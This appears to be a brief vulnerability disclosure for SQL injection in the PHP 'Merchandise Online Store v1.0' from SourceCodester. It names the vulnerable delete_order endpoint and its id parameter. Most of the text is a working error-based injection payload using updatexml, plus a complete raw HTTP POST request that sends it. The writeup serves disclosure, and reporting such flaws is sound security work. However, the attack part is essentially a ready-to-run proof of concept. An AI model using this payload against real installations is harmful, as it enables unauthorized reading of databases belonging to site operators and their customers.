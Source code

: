 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/classes/Master.php?f=delete_order

Vulnerability location: /vloggers_merch/classes/Master.php?f=delete_order, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /vloggers_merch/classes/Master.php?f=delete_order HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/vloggers_merch/admin/?page=orders
Content-Length: 65
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/166875240-49936daf-0f88-4baa-b5c6-6e040977eab9.png)
